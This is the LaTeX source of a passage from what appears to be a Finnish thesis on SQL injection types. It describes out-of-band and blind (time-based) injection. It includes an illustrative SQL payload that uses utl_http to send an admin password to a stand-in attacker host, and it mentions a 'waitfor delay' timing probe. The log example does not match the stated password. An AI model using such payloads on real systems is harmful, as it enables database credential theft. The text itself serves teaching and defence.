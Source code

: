 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
	\subsubsection{Out-of-band injektio}
	Sen sijaan out-of-band injektiossa tuloste saadaan eri reittiä, kun hyökkäys on syötetty. Out-of-band injektiota voidaan hyödyntää, vaikka sovellus ei palauta käyttäjälle kyselyn tulosta. Tällainen tilanne voi ilmetä esimerkiksi, jos sovellus tallettaa tietokantaan käyttäjien selaintietoja. Selaintiedot saadaan HTTP-pyynnön "User-Agent"\space kentästä. Hyökkääjä voi tällaisessa tapauksessa lähettää "User-Agent"\space kentässä haitallista koodia. Jotta hyökkääjä saisi vastauksen suoritetusta kyselystä, hän voi ohjata vastauksen esimerkiksi oman palvelimensa logeihin. Tämä onnistuu, mikäli sovellus saadaan suorittamaan seuraavanlainen kysely: 
	
	\begin{lstlisting}[language=sql]
	utl_http('http://www.hyokkaajansivu.fi/injections/' || 
	SELECT password
	FROM User 
	WHERE username = 'admin'
	)
	\end{lstlisting}
	Oletetaan että käyttäjän admin salasana on "password123". Injektion onnistuessa tietokanta hakee ensin käyttäjän admin salasanan, jonka jälkeen se suorittaa HTTP-pyynnön osoitteeseen "http://hyokkaajansivu.fi/injections/password123". Tällöin hyökkääjän palvelimen logeissa näkyy seuraavanlainen merkintä:
	
	\begin{lstlisting}
	GET "/injections/admininpassword", 200
	\end{lstlisting}
	
	Sadeghianin ja kollegoiden artikkelin mukaan kyselyn tulos voidaan ohjata palvelimen lisäksi myös esimerkiksi hyökkääjän sähköpostiin.

	\subsubsection{Sokea injektio}
	Artikkelin mukaan sokeassa injektiossa hyökkääjä ei saa kyselyn palauttamaa tulosta selville mitään reittiä. Hyökkääjä voi päätellä hyökkäyksen onnistumisen esimerkiksi siitä kuinka nopeasti sivu latautuu. Lisäämällä injektoituun sql-kyselyyn komennon "waitfor delay 0:0:5", tietokanta odottaa 5 sekuntia ennen kuin se palauttaa tuloksen. Tästä voidaan päätellä injektion onnistuneen \cite{regexp}. Hyökkääjä voi myös tarkkailla vaikuttaako hänen tekemänsä hyökkäykset sovelluksen toimintaan tai ulkoasuun jollain tapaa.
	
\end{document}
